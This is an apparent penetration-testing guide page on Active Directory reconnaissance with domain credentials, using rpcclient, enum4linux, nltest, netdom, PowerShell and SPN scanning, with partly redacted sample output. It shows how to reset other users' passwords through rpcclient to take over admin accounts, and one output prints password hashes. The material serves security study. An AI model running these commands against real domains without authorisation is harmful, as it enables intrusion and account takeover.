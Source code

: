 *****************************************************
Exploitation
*****************************************************

After **vulnerability analysis** probably, we would have compromised a machine to have domain user credentials or administrative credentials. This blog presents information about

* :ref:`active-directory-reconnaissance` with Domain User rights. Once, we have access to **credentials of a domain user of windows domain**, we can utilize the credentials to do windows **active directory enumeration** such as figuring out the domain controllers, users, machines, trust etc. This post looks into the various methods which are available to do the enumeration such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Directory Topology Diagrammer, reconnaissance using powershell etc.

* :ref:`remote-code-execution-methods` : Once we have **administrative credentials** there are multiple ways to get a **execute remote commands** on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc. We have a look over all the methods with possible examples.

* :ref:`useful-stuff` : Also, we would have a quick look how to add/ remove/ a local/ domain user, add/ remove a local user to administrator group, accessing remote windows machines from windows/ linux.

* :ref:`appendix-I-interesting-stories` : Presented the links of interesting blogs which might be helpful in exploitation such as blogs targeting Domain Administrator, etc.

Did we miss something? Please send us a pull request and we will add it. 

.. _active-directory-reconnaissance:

Active Directory Reconnaissance
===============================

rpclient
--------

eskoudis presents great amount of information at `Plundering Windows Account Infor via Authenticated SMB Session <https://pen-testing.sans.org/blog/2013/07/24/plundering-windows-account-info-via-authenticated-smb-sessions>`_.  carnal0wnage have written `Enumerating user accounts on linux and OSX <http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html>`_ and BlackHills have written `Password Spraying and Other Fun with RPC Client <http://www.blackhillsinfosec.com/?p=4645>`_ Most of the stuff has been taken from the above three.

The below commands tell how to figure out

Connection
^^^^^^^^^^

::

 rpcclient -U xxxxs.hxxxx.net/mlxxxxh 10.0.65.103 

Version of the target Windows machine
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
  
 rpcclient $> srvinfo
 10.0.65.103    Wk Sv BDC Tim NT     
 platform_id     :       500
 os version      :       6.3
 server type     :       0x801033

Enum commands
^^^^^^^^^^^^^

::

 rpcclient $> enum

 enumalsgroups  enumdomains    enumdrivers    enumkey     enumprivs
 enumdata       enumdomgroups  enumforms      enumports   enumtrust
 enumdataex     enumdomusers   enumjobs       enumprinter

Current domain
^^^^^^^^^^^^^^

::
  
  enumdomains 
  name:[xxxx] idx:[0x0]
  name:[Builtin] idx:[0x0]

Enum Domain info
^^^^^^^^^^^^^^^^

::

  rpcclient $> querydominfo 
  Domain               :  xxxx
  Server               :  HMC_PDC-TEMP
  Comment              :      
  Total Users          :  9043
  Total Groups         :  0
  Total Aliases        :  616
  Sequence No          :  1
  Force Logoff         : -1
  Domain Server State  :  0x1
  Server Role          :  ROLE_DOMAIN_BDC
  Unknown 3           :    0x1

Enum Domain users
^^^^^^^^^^^^^^^^^

::
   
  rpcclient $> enumdomusers 
  user:[administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[_STANDARD] rid:[0x3ee]
  user:[Install] rid:[0x3fa]
  user:[sko] rid:[0x43a]
  user:[cap] rid:[0x589]
  user:[zentrale] rid:[0x67f]
  user:[dbserver] rid:[0x7d9]
  user:[JVOO] rid:[0x7fa]
  user:[Standard HMC User Te] rid:[0x8a0]
  user:[event] rid:[0x8d5]
  user:[remote] rid:[0x9ea]
  user:[pda-vis1] rid:[0xb65]
  user:[TestUser] rid:[0xc46]
  user:[oeinstall] rid:[0x1133]
  user:[repro] rid:[0x13c3]

Enum Domain groups
^^^^^^^^^^^^^^^^^^

::

  rpcclient $> enumdomgroups 
  group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
  group:[Domain Admins] rid:[0x200]
  group:[Domain Users] rid:[0x201]
  group:[Domain Guests] rid:[0x202]
  group:[Domain Computers] rid:[0x203]
  group:[Domain Controllers] rid:[0x204]
  group:[Schema Admins] rid:[0x206]
  group:[Enterprise Admins] rid:[0x207]
  group:[Group Policy Creator Owners] rid:[0x208]
  group:[Read-only Domain Controllers] rid:[0x209]
  group:[Cloneable Domain Controllers] rid:[0x20a]
  group:[Protected Users] rid:[0x20d]
  group:[xxxx Users] rid:[0x4d8]
  group:[IC Members] rid:[0x50d]
  group:[Event Management] rid:[0x8d7]
  group:[SMSInternalCliGrp] rid:[0x9f5]
  group:[IT Support] rid:[0x105b]

Enum Group Information and Group Membership
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> querygroup 0x200
  Group Name:     Domain Admins
  Description:    Designated administrators of the domain
  Group Attribute:7
  Num Members:16


::

  rpcclient $> querygroupmem 0x200
  rid:[0x2227] attr:[0x7]
  rid:[0x3601] attr:[0x7]
  rid:[0x36aa] attr:[0x7]
  rid:[0x36e0] attr:[0x7]
  rid:[0x3c23] attr:[0x7]
  rid:[0x5528] attr:[0x7]
  rid:[0x1f4]  attr:[0x7]
  rid:[0x363b] attr:[0x7]
  rid:[0x573e] attr:[0x7]
  rid:[0x56bc] attr:[0x7]
  rid:[0x5e5e] attr:[0x7]
  rid:[0x7fe1] attr:[0x7]
  rid:[0x86d9] attr:[0x7]
  rid:[0x9367] attr:[0x7]
  rid:[0x829c] attr:[0x7]
  rid:[0xa26e] attr:[0x7]

Enumerate specific User/ computer information by RID
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> queryuser 0x3601
  User Name   :   dummy_s
  Full Name   :   Dummy User
  Home Drive  :   
  Dir Drive   :   
  Profile Path:   
  Logon Script:   
  Description :   E 5.5.2008 Admin
  Workstations:   
  Comment     :   
  Logon Time               :      Tue, 24 Jan 2017 19:28:14 IST
  Logoff Time              :      Thu, 01 Jan 1970 05:30:00 IST
  Kickoff Time             :      Thu, 14 Sep 30828 08:18:05 IST
  Password last set Time   :      Fri, 21 Nov 2008 02:34:34 IST
  Password can change Time :      Fri, 21 Nov 2008 02:34:34 IST
  Password must change Time:      Thu, 14 Sep 30828 08:18:05 IST

Domain Password Policy
^^^^^^^^^^^^^^^^^^^^^^

::

 rpcclient $> getdompwinfo 
 min_password_length: 8
 password_properties: 0x00000000

User password policies
^^^^^^^^^^^^^^^^^^^^^^

::

  rpcclient $> getusrdompwinfo 0x3601
  min_password_length: 8
  &info.password_properties: 0x433e6584 (1128162692)
  0: DOMAIN_PASSWORD_COMPLEX  
  0: DOMAIN_PASSWORD_NO_ANON_CHANGE
  1: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
  0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
  0: DOMAIN_PASSWORD_STORE_CLEARTEXT
  0: DOMAIN_REFUSE_PASSWORD_CHANGE

Local Users
^^^^^^^^^^^

::

 lsaenumsid
 S-1-5-21-1971769256-327852233-3012798916-1014 Example\ftp_user (1)
 S-1-5-21-1971769256-327852233-3012798916-1000 Example\example_user (1)

::

 lookupsid S-1-5-21-1971769256-327852233-3012798916-1014
 S-1-5-21-1971769256-327852233-3012798916-1014 Example\ftp_user (1)

Reset AD user password
^^^^^^^^^^^^^^^^^^^^^^

As Mubix explained in `Reset AD User Password with Linux <https://room362.com/post/2017/reset-ad-user-password-with-linux/>`_. Often we have the credentials of limited administrative accounts such as IT or helpdesk. Sometimes, These accounts have an ability reset the password. This can be achieved in by using rpcclient in linux box provided smbclient and pass-the-hash package should be installed.

setuserinfo2 command can be used in order to change the password.

::

 rpcclient $> setuserinfo2
 Usage: setuserinfo2 username level password [password_expired]
 result was NT_STATUS_INVALID_PARAMETER

.. Note :: we won't be able to change the password of users with AdminCount = 1 (Domain Admins and other higher privileged accounts).

::

 rpcclient $> setuserinfo2 ima-domainadmin 23 'ASDqwe123'
 result: NT_STATUS_ACCESS_DENIED
 result was NT_STATUS_ACCESS_DENIED
 rpcclient $>

Users having alternate admin accounts can be easily targeted.

::

 rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
 rpcclient $>

.. Note :: The number 23 came from `MSDN article USER_INFORMATION_CLASS <https://msdn.microsoft.com/en-us/library/cc245617.aspx>`__.  The SAMPR_USER_INTERNAL4_INFORMATION structure holds all attributes of a user, along with an encrypted password.

This can be done using the net command as well but we need to install the samba-common-bin in our machine.

::

 root@kali:~# net rpc password adminuser -U helpdesk -S 192.168.80.10
 Enter new password for adminuser:
 Enter helpdesk's password:
 root@kali:~#

Enum4linux
----------

Simple wrapper around the tools in the samba package to provide similar functionality to enum.exe (formerly from www.bindview.com).

Usage
^^^^^

::

 Usage: ./enum4linux.pl [options] ip

 Options are (like "enum"):
     -U        get userlist
     -M        get machine list*
     -S        get sharelist
     -P        get password policy information
     -G        get group and member list
     -d        be detailed, applies to -U and -S
     -u user   specify username to use (default "")  
     -p pass   specify password to use (default "")   


 Additional options:
    -a        Do all simple enumeration (-U -S -G -P -r -o -n -i).
              This option is enabled if you don't provide any other options.
    -h        Display this help message and exit
    -r        enumerate users via RID cycling
    -R range  RID ranges to enumerate (default: 500-550,1000-1050, implies -r)
    -K n      Keep searching RIDs until n consecutive RIDs don't correspond to a username.  Implies RID range ends at 999999. Useful against DCs.
    -l        Get some (limited) info via LDAP 389/TCP (for DCs only)
    -s file   brute force guessing for share names
    -k user   User(s) that exists on remote system (default: administrator,guest,krbtgt,domain admins,root,bin,none)
              Used to get sid with "lookupsid known_username"
    	      Use commas to try several users: "-k admin,user1,user2"
    -o        Get OS information
    -i        Get printer information
    -w wrkg   Specify workgroup manually (usually found automatically)
    -n        Do an nmblookup (similar to nbtstat)
    -v        Verbose.  Shows full commands being run (net, rpcclient, etc.)

Example
^^^^^^^

::

 enum4linux -P -d xxxx.abcxxx.net -u mluxxxx -p threxxxx 10.0.65.103

Active Directory Explorer (ADExplorer)
--------------------------------------

As per the TechNet article `Active Directory Explorer (AD Explorer) <https://technet.microsoft.com/en-us/sysinternals/adexplorer.aspx>`_ is an advanced Active Directory (AD) viewer and editor. We can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object's schema, and execute sophisticated searches that you can save and re-execute. 

`Sally Vandeven <https://www.blackhillsinfosec.com/?team=sally-vandeven>`_ has written a brilliant article on `Domain Goodness – How I Learned to LOVE AD Explorer <https://www.blackhillsinfosec.com/?p=5938>`_ Must read!

JXplorer
--------

`JXplorer <http://jxplorer.org/>`_ is a cross platform LDAP browser and editor. It is a standards compliant general purpose LDAP client that can be used to search, read and edit any standard LDAP directory, or any directory service with an LDAP or DSML interface.

Remote Server Administration Tools 
----------------------------------

Active Directory Domain Services (AD DS) Tools and Active Directory Lightweight Directory Services (AD LDS) Tools includes Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit; DCPromo.exe; LDP.exe; NetDom.exe; NTDSUtil.exe; RepAdmin.exe; Active Directory module for Windows PowerShell; DCDiag.exe; DSACLs.exe; DSAdd.exe; DSDBUtil.exe; DSMgmt.exe; DSMod.exe; DSMove.exe; DSQuery.exe; DSRm.exe; GPFixup.exe; KSetup.exe; KtPass.exe; NlTest.exe; NSLookup.exe; W32tm.exe.

Active Directory Administrative Center; Active Directory Domains and Trusts; Active Directory Sites and Services; Active Directory Users and Computers; ADSI Edit;  are GUI tools. These can be installed by installing `Remote Server Administration Tools <https://support.microsoft.com/en-in/help/2693643/remote-server-administration-tools-rsat-for-windows-operating-systems>`_ 

nltest
------

`Nltest <https://technet.microsoft.com/en-us/library/cc731935(v=ws.11).aspx>`_ is a command-line tool to perform network administrative tasks. We could figure out the Domain Controllers/ Domain Trusts using it. It is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the AD DS or the AD LDS server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT).

Usage
^^^^^

::

 nltest /?
 Usage: nltest [/OPTIONS]


    /SERVER:<ServerName> - Specify <ServerName>

    /QUERY - Query <ServerName> netlogon service
    /DCLIST:<DomainName> - Get list of DC's for <DomainName>
    /DCNAME:<DomainName> - Get the PDC name for <DomainName>
    /DSGETDC:<DomainName> - Call DsGetDcName /PDC /DS /DSP /GC /KDC /TIMESERV /GTIMESERV /WS /NETBIOS /DNS /IP /FORCE /WRITABLE /AVOIDSELF /LDAPONLY /BACKG /DS_6
        /TRY_NEXT_CLOSEST_SITE /SITE:<SiteName> /ACCOUNT:<AccountName> /RET_DNS /RET_NETBIOS
    /DNSGETDC:<DomainName> - Call DsGetDcOpen/Next/Close /PDC /GC /KDC /WRITABLE /LDAPONLY /FORCE /SITESPEC
    /DSGETFTI:<DomainName> - Call DsGetForestTrustInformation /UPDATE_TDO
    /DSGETSITE - Call DsGetSiteName
    /DSGETSITECOV - Call DsGetDcSiteCoverage
    /DSADDRESSTOSITE:[MachineName] - Call DsAddressToSiteNamesEx        /ADDRESSES:<Address1,Address2,...>
    /PARENTDOMAIN - Get the name of the parent domain of this machine
    /WHOWILL:<Domain>* <User> [<Iteration>] - See if <Domain> will log on <User>
    /FINDUSER:<User> - See which trusted domain will log on <User>
    /USER:<UserName> - Query User info on <ServerName>
    /TIME:<Hex LSL> <Hex MSL> - Convert NT GMT time to ascii
    /LOGON_QUERY - Query number of cumulative logon attempts
    /DOMAIN_TRUSTS - Query domain trusts on <ServerName>
        /PRIMARY /FOREST /DIRECT_OUT /DIRECT_IN /ALL_TRUSTS /V

**Examples**


Verify domain controllers in a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  nltest /dclist:xxx.example.net
  Get list of DCs in domain 'xxx.example.net' from '\\ABCDEFG.xxx.example.net'.
        ABCDEFG1.xxx.example.net        [DS] Site: XX-SriLanka
        ABCDEFG2.xxx.example.net        [DS] Site: XX-India
        ABCDEFG5.xxx.example.net [PDC]  [DS] Site: XX-Bangladesh
  The command completed successfully

Advanced information about users
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /user:"TestAdmin"
  User: User1
  Rid: 0x3eb
  Version: 0x10002
  LastLogon: 2ee61c9a 01c0e947 = 5/30/2001 13:29:10
  PasswordLastSet: 9dad5428 01c0e577 = 5/25/2001 17:05:47
  AccountExpires: ffffffff 7fffffff = 9/13/30828 19:48:05
  PrimaryGroupId: 0x201
  UserAccountControl: 0x210
  CountryCode: 0x0
  CodePage: 0x0
  BadPasswordCount: 0x0
  LogonCount: 0x33
  AdminCount: 0x1
  SecurityDescriptor: 80140001 0000009c 000000ac 00000014 00000044 00300002 000000
  02 0014c002 01050045 00000101 01000000 00000000 0014c002 000f07ff 00000101 05000
  000 00000007 00580012 00000003 00240000 00020044 00000501 05000000 00000015 22cd
  b7b4 7112b3f1 2b3be507 000003eb 00180000 000f07ff 00000201 05000000 00000020 000
  00220 00140000 0002035b 00000101 01000000 00000000 00000201 05000000 00000020 00
  000220 00000201 05000000 00000020 00000220
   AccountName: User1
  Groups: 00000201 00000007
  LmOwfPassword: fb890c9c 5c7e7e09 ee58593b d959c681
  NtOwfPassword: d82759cc 81a342ac df600c37 4e58a478
  NtPasswordHistory: 00011001
  LmPasswordHistory: 00010011
  The command completed successfully

Determine the PDC emulator for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  nltest /dcname:fourthcoffee
  PDC for Domain fourthcoffee is \\fourthcoffee-dc-01
  The command completed successfully

Show trust relationships for a domain
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Returns a list of trusted domains. /Primary /Forest /Direct_Out /Direct_In /All_Trusts /v.

The following list shows the values that you can use to filter the list of domains.

* /Primary: Returns only the domain to which the computer account belongs.

* /Forest: Returns only those domains that are in the same forest as the primary domain.

* /Direct_Out: Returns only the domains that are explicitly trusted with the primary domain.

* /Direct_In: Returns only the domains that explicitly trust the primary domain.

* /All_Trusts: Returns all trusted domains.

* /v: Displays verbose output, including any domain SIDs and GUIDs that are available.

::

  nltest /domain_trusts 
 
  List of domain trusts:
     0: ABC abc.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     1: DEF def.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound)
     2: IJK IJK.NET (NT 5) (Direct Inbound) ( Attr: 0x8 )
     3: LMN LMH.net (NT 5) (Direct Outbound) ( Attr: 0x18 )
     4: APP app.example.net (NT 5) (Forest: 17) (Direct Outbound) (Direct Inbound) ( Attr: 0x20 )

Thanks to `Tanoy Bose <https://twitter.com/tanoybose>`_ for informing me about this. Cheers Bose.

netdom
------

netdom: netdom is a command-line tool that is built into Windows Server 2008 and Windows Server 2008 R2. It is available if you have the Active Directory Domain Services (AD DS) server role installed. It is also available if you install the Active Directory Domain Services Tools that are part of the Remote Server Administration Tools (RSAT). More information available at `Netdom query <https://technet.microsoft.com/en-us/library/cc835089(v=ws.11).aspx>`_. 

Usage
^^^^^

::

  netdom query {/d: | /domain:}<Domain> [{/s: | /server:}<Server>] [{/ud: | /userd:}[<Domain>\]<User> {/pd: | /passwordd}{<Password>|*}] [/verify] [/reset] [/direct] {WORKSTATION|SERVER|DC|OU|PDC|FSMO|TRUST} [{/help | /?}]

  Specifies the type of list to generate. The following list shows the possible objects:
  WORKSTATION: Queries the domain for the list of workstations.
  SERVER: Queries the domain for the list of servers.
  DC   : Queries the domain for the list of domain controllers.
  OU   : Queries the domain for the list of OUs under which the user that you specify can create a computer object.
  PDC  : Queries the domain for the current primary domain controller.
  FSMO : Queries the domain for the current list of operations master role holders. These role holders are also known as flexible single master operations (FSMO).
  TRUST: Queries the domain for the list of its trusts.

**Examples**

DC
^^

Queries the domain for the list of workstations:

:: 

  PS C:\> netdom query /domain example.net DC
  List of domain controllers with accounts in the domain:
  
  xxxxDC12
  xxxxDC11
  xxxxDC04
  xxxxDC03
  The command completed successfully.

PDC
^^^

Queries the domain for the current primary domain controller

::
 
  PS C:\> netdom query /domain example.net PDC
  Primary domain controller for the domain:
  
  xxxxDC03.example.net
  The command completed successfully.

FSMO
^^^^
Queries the domain for the current list of operations master role holders.  

::

  PS C:\> netdom query /domain example.net FSMO
  Schema master               xxxxDC03.example.net
  Domain naming master        xxxxDC03.example.net
  PDC                         xxxxDC03.example.net
  RID pool manager            xxxxDC03.example.net
  Infrastructure master       xxxxDC03.example.net
  The command completed successfully. 

TRUST
^^^^^
Queries the domain for the list of its trusts

::

  PS C:\> netdom query /domain example.net TRUST
  Direction Trusted\Trusting domain      Trust type
  ========= =======================      ==========   
  
  <->       xxxx.xxxxxx.net              Direct
  <->       xxxx.example.net             Direct
  <->       XX.XXXxXX.NET                Direct

OU
^^

Queries the domain for the list of OUs under which the user that you specify can create a computer object.

::

  PS C:\> netdom query /domain abc.example.net OU
  List of Organizational Units within which the specified user can create a
  machine account:
  
  OU=Domain Controllers,DC=abc,DC=example,DC=net
  OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=ServiceAccounts,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Users,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Groups,OU=ABC-Admin,DC=abc,DC=example,DC=net
  OU=Service Accounts,DC=abc,DC=example,DC=net
  OU=Servers,OU=ABC-Admin,DC=abc,DC=example,DC=net
  DC=abc,DC=example,DC=net
  The command completed successfully.

SERVER/ WORKSTATION
^^^^^^^^^^^^^^^^^^^

Queries the domain for the list of servers/ workstations

::   

  PS C:\> netdom query /domain abc.example.net WORKSTATION
  List of workstations with accounts in the domain:

  ABCDC02      ( Workstation or Server )
  ABCDC01      ( Workstation or Server )
  ABCDC03      ( Workstation or Server )
  ABCDC04      ( Workstation or Server )
  BSKMACDB62   ( Workstation or Server )

  The command completed successfully.

  PS C:\>

Microsoft Active Directory Topology Diagrammer
----------------------------------------------

The `Microsoft Active Directory Topology Diagrammer <https://www.microsoft.com/en-in/download/details.aspx?id=13380>`_ reads an Active Directory configuration using LDAP, and then automatically generates a Visio diagram of your Active Directory and /or your Exchange Server topology. The diagrams may include domains, sites, servers, organizational units, DFS-R, administrative groups, routing groups and connectors and can be changed manually in Visio if needed.


AD Reconnaissance with PowerShell
----------------------------------

Sean Metcalf has written an awesome blog regarding the `Active Directory Recon without Admin Rights <https://adsecurity.org/?p=2535>`_ Most of the below stuff has been directly taken from his blog.

The enumeration of the active directory can also be carried forward using the normal domain user account. After gathering the domain user credentials launch the powershell by the following command on the command prompt.

:: 

 C:\> Powershell -nop -exec bypass -noexit

Forest Information
^^^^^^^^^^^^^^^^^^

The current forest information can be gathered by using the following powershell code

:: 

 PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

 Name                  : ABC.com
 Sites                 : {Default-First-Site-Name}
 Domains               : {ABC.com}
 GlobalCatalogs        : {WIN-OK0HIC2UCIH.ABC.com}
 ApplicationPartitions : {DC=DomainDnsZones,DC=ABC,DC=com, DC=ForestDnsZones,DC=
                         ABC,DC=com}
 ForestMode            : Windows2008R2Forest
 RootDomain            : ABC.com
 Schema                : CN=Schema,CN=Configuration,DC=ABC,DC=com
 SchemaRoleOwner       : WIN-OK0HIC2UCIH.ABC.com
 NamingRoleOwner       : WIN-OK0HIC2UCIH.ABC.com


Domain Information
^^^^^^^^^^^^^^^^^^

The current domain information to which the domain user is a part can be easily gathered by issuing the following powershell code

::

 PS C:\> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

 Forest                  : ABC.com
 DomainControllers       : {WIN-OK0HIC2UCIH.ABC.com}
 Children                : {}
 DomainMode              : Windows2008R2Domain
 Parent                  :
 PdcRoleOwner            : WIN-OK0HIC2UCIH.ABC.com
 RidRoleOwner            : WIN-OK0HIC2UCIH.ABC.com
 InfrastructureRoleOwner : WIN-OK0HIC2UCIH.ABC.com
 Name                    : ABC.com

Forest Trusts
^^^^^^^^^^^^^

The trust between the present forests can be obtained by the following powershell code

:: 

 $ForestRootDomain = ‘lab.adsecurity.org’
 ([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext(‘Forest’, $ForestRootDomain)))).GetAllTrustRelationships()


Domain Trusts
^^^^^^^^^^^^^

The trusts relationship between the current domain and associated domain can be enumerated by the following

::

 PS C:\> ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

By gathering this information, An attacker can determine the attack surface area by residing in current domain.

Forest Global Catalogs 
^^^^^^^^^^^^^^^^^^^^^^

:: 

 PS C:\> [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest().GlobalCatalogs

.. Note :: Typically every DC is also a Global catalog 

Enterprise Services without scanning of Network
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The services offered by the particular can also be identified using a simple powershell code. This type of information gathering is a stealthy approach as the service scanning of network may sometimes trigger the alarm. This type of approach is carried out by scanning the SPN (Service Principal Names). The information related to RDP enabled workstations, WinRM Enabled, Exchange servers, SQL servers etc. can be enumerated.

::

 PS C:\> get-adcomputer -filter {ServicePrincipalName -like “*TERMSRV*”} -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,
 PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation

.. Note :: Both the computers and users (Service accounts) are to be targeted in order to determine the Enterprise services.

SPN-Scanning
^^^^^^^^^^^^

Microsoft states that  "A service principal name (SPN) is the name by which a client uniquely identifies an instance of a service."
using the SPN scanning we identify the common servers such as IIS, SQL Server, and LDAP. Mostly, the convention of the SPN is formatted as SERVICE/HOST but sometimes the port no. associated is also given such as SERVICE/HOST:PORT.

::

 DNS/win2008k001.ABC.com   MSSQLSvc/win2008k002.ABC.com:1600



The above example shows that if the Domain Account is used to run the DNS and SQL services on ABC.com the SPN entries would be the same.
Here we can use `ADFind.exe <http://www.joeware.net/freetools/tools/adfind/>`__ to list all the SQL server instances registered on a domain by using the code 

::

 C: >Adfind.exe -f "ServicePrincipalName=MSSQLSvc*"  

we can also use setspn.exe (comes with the windows server 2008) can be used to lookup the SPNs for a particular user.

::

 C: >setspn.exe -l "UserName"

SPN Scanning using Powershell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Scott Sutherland has written about SPN scanning techniques at `Faster Domain Esclation using LDAP <https://blog.netspi.com/faster-domain-escalation-using-ldap/>`_ .The `Get-SPN <https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1>`__ Powershell module provides us to quickly search LDAP for accounts related to specific groups, users or SPN service name. Once Downloaded the script run the following command in a command prompt in order to install it for the current session.

:: 

 C:\> Powershell -nop -exec bypass -noexit (change the directory pointing towards the downloaded location)
 PS C:\> Import-Module .\Get-SPN.psm1

Find All Servers where Domain Admins are Registered to Run Services. If we are using the Domain User or local system from a particular Domain computer use the following command

::

 Get-SPN -type group -search "Domain Admins" -List yes | Format-Table -Autosize

for a non domain system with domain credentials we can use the command below 

::

 Get-SPN  -type group -search "Domain Admins" -List yes -DomainController 192.168.1.100 -Credential domainuser | Format-Table -Autosize

Find all registered SQL Servers, Dcom, dnscache etc.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^


for identifying the services using the Domain User or localsystem from a particular Domain computer use the following command

::

 Get-SPN  -type service -search "MSSQLSvc*" -List yes | Format-Table -Autosize

for other than Servers, below is a list of standard SPN service names.

::

 alerter,appmgmt,browser,cifs,cisvc,clipsrv,dcom,dhcp,dmserver,dns,dnscache,eventlog,eventsystem,fax,
 http,ias,iisadmin,messenger,msiserver,mcsvc,netdde,netddedsm,netlogon,netman,nmagent,oakley,plugplay,policyagent,
 protectedstorage,rasman,remoteaccess,replicator,rpc,rpclocator,rpcss,rsvp,samss,scardsvr,scesrv,schedule,scm,seclogon,
 snmp,spooler,tapisrv,time,trksvr,trkwks,ups,w3svc,wins,www 

To find All the ServicePrincipalName Entries for Domain Users Matching String by executing the command as domain user or LocalSystem from a domain computer then you can use the command below.

::

 Get-SPN  -type user -search "*svc*" -List yes
	
